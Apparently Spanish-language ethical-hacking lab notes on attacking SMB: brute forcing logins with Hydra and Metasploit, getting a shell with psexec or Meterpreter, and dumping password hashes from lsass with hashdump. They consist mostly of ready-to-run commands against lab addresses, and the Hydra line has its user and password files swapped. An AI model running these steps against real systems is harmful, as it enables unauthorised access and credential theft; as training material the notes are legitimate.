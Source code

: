 #ServiciosSMB #HackingActiveDirectoy #PinguinoMario #HackingEtico 
Podemos también hacer ataques de fuerza bruta con Hydra al protocolo SMB:
```bash
hydra -P user.txt -L passwords.txt smb://192.168.0.30
```
En caso de obtener un error haciendo ataques de fuerza bruta al protocolo smb, podemos usar metasploit:
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.0.30
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
```
![[Pasted image 20230730145232.png]]
Una vez encontrado el usuario administrador, podemos loguearnos con la herramienta de psexec siempre y cuando algún recurso compartido tenga permisos de escritura:
```bash
impacket-psexec administrator@192.168.0.20
```
Si tiene permisos de escritura:
![[Pasted image 20230729132935.png]]
Si no tiene permisos de escritura:
![[Pasted image 20230730145409.png]]
No obstante, si queremos entrar con metasploit para obtener una sesión de meterpreter, tendríamos que usar el siguiente módulo:
```bash
use exploit/windows/smb/psexec
```
Y establecemos los parámetros:
```bash
set RHOST 192.168.0.20
set RPORT 445
set SMBUSER administrator
set SMBPASS password1
```
Y habremos obtenido lo mismo de antes pero con metasploit una sesión de meterpreter:
![[Pasted image 20230729133215.png]]
Ahora podremos incluso dumpear los passwords de los usuarios, por lo que tenemos primero que mirar al proceso lsass para hacer esto:
```bash
pgrep lsass # Proceso para realizar acciones privilegiadas
migrate 464
hashdump
```
![[Pasted image 20230729133349.png]]
También podemos conocer los usuarios si entramos con la shell y usamos el comando net users, donde vemos que en este caso hay tres usuarios dentro del SMB:
![[Pasted image 20230729133613.png]]
